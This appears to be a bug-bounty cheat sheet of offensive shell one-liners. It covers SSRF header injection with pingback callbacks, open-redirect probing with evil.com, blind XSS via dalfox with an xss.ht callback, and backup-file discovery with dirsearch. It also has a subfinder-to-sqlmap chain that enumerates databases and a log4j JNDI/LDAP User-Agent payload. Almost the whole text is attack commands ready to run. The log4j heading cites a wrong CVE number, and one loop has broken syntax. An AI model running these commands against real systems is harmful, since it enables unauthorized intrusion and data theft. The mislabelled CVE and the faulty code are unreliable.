 # Blind SSRF Oneliner(X-Forwarded-Host):

`echo "testphp.vulnweb.com"|assetfinder|httprobe|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

`echo "testphp.vulnweb.com"|assetfinder|httpx|while read url; do ssrf=$(curl -s -L $url -H "X-Forwarded-Host: pingb.in/p/6305faa38a067b8717e6d09db07f");echo -e "$url -> X-Forwarded-Host: injected";done`

# Blind SSRF Oneliner:

`cat wayback.txt|gf ssrf |qsreplace 'https://your-burp-collab.com'|while read url; do ssrf=$(curl -s -L $url);echo -e "$url --> PAYLOAD-INJECTED-SUCCESSFULLY";done`

# Open Redirect Oneliner:

`cat waybackurls_result.txt|grep -a -i \=http|qsreplace 'http://evil.com'|while read host do;do curl -s -L $host -I|grep "evil.com" && echo "$host \033[0;31m[+]VULNERABLE-TO-OPEN-REDIRECT-ATTACK\n";done`

# Blind XSS Oneliner:

`echo testphp.vulnweb.com|gau -subs|grep "https://" |grep -v "png\|jpg\|css\|js\|gif\|txt"|grep "="|uro|dalfox pipe --deep-domxss --multicast --blind akshayravi0479.xss.ht`

# Content Discovery With Dirsearch Oneliner:

`dirsearch -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,log,xml,js,json -u http://target`

# SQLI Oneliner With Sqlmap:
```
1 subfinder -d target.com|tee -a domains.txt
2 cat domains.txt|httpx|tee -a urls-alive.txt
3 cat urls-alive.txt|waybackurls|tee -a urls-check.txt
4 gf sqli urls-check.txt >> sql.url
5 sqlmap -m sql.url --dbs --batch
```

# CVE-2021-4428 log4j Oneliner With User-Agent Payload:

`while read url; do log4=$(curl -s -L $url -H User-Agent: "$\{jndi:ldap://your-pingback-client-url.com}");echo -e "$url -> User-Agent: Fired";done`
